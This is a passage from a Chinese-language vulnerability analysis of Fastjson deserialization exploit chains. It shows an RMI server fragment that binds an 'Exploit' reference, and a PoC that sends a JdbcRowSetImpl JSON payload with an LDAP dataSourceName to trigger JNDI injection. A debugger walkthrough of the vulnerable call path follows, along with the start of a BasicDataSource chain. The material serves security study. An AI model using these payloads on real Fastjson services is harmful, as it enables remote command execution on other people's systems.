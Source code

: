 ```java
        Reference reference = new Reference("Exploit", "Exploit", "http://127.0.0.1:8000/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("Exploit", referenceWrapper);
    }
}
```

poc.java

```java
package com.JNDI;

import com.alibaba.fastjson.JSON;
public class Poc {
    public static void main(String[] argv){
        String PoC = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\":\"ldap://localhost:1389/Exploit\", \"autoCommit\":true}";
        JSON.parse(PoC);
    }
}
```

### 分析

先是调试到了setDataSourceName()函数，将dataSourceName值设置为目标RMI服务的地址：

![https://cdn.nlark.com/yuque/0/2020/png/244880/1605496132716-7c72b771-9d00-4e81-b3d1-609fd39d2bd9.png#align=left&display=inline&height=378&margin=%5Bobject%20Object%5D&originHeight=378&originWidth=1026&size=0&status=done&style=none&width=1026](https://cdn.nlark.com/yuque/0/2020/png/244880/1605496132716-7c72b771-9d00-4e81-b3d1-609fd39d2bd9.png#align=left&display=inline&height=378&margin=%5Bobject%20Object%5D&originHeight=378&originWidth=1026&size=0&status=done&style=none&width=1026)

接着调用到setAutoCommit()函数，设置autoCommit值，其中调用了connect()函数：

![https://cdn.nlark.com/yuque/0/2020/png/244880/1605496130846-26c493a2-7cee-4964-a39e-48a37b6452fa.png#align=left&display=inline&height=445&margin=%5Bobject%20Object%5D&originHeight=445&originWidth=771&size=0&status=done&style=none&width=771](https://cdn.nlark.com/yuque/0/2020/png/244880/1605496130846-26c493a2-7cee-4964-a39e-48a37b6452fa.png#align=left&display=inline&height=445&margin=%5Bobject%20Object%5D&originHeight=445&originWidth=771&size=0&status=done&style=none&width=771)

跟进connect()函数，看到了熟悉的JNDI注入的代码即InitialContext.lookup()，并且其参数是调用this.getDataSourceName()

获取的、即在前面setDataSourceName()函数中设置的值，因此lookup参数外部可控，导致存在JNDI注入漏洞：

<img src="https://cdn.nlark.com/yuque/0/2020/png/244880/1605496132370-9e40a3b3-638d-4e70-a8f2-393c51a974dc.png#align=left&display=inline&height=442&margin=%5Bobject%20Object%5D&originHeight=442&originWidth=1089&size=0&status=done&style=none&width=1089" alt="https://cdn.nlark.com/yuque/0/2020/png/244880/1605496132370-9e40a3b3-638d-4e70-a8f2-393c51a974dc.png#align=left&display=inline&height=442&margin=%5Bobject%20Object%5D&originHeight=442&originWidth=1089&size=0&status=done&style=none&width=1089"  />

再往下就是JNDI注入的调用过程了，最后是成功利用JNDI注入触发Fastjson反序列化漏洞、达到任意命令执行效果。

## 基于BasicDataSource的利用链

### 依赖

BasicDataSource类在旧版本的 tomcat-dbcp 包中，对应的路径是 org.apache.tomcat.dbcp.dbcp.BasicDataSource。 比如：6.0.53、7.0.81等版本。MVN 依赖写法如下：

```xml
<!-- https://mvnrepository.com/artifact/org.apache.tomcat/dbcp -->
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>dbcp</artifactId>
    <version>6.0.53</version>
</dependency>
```
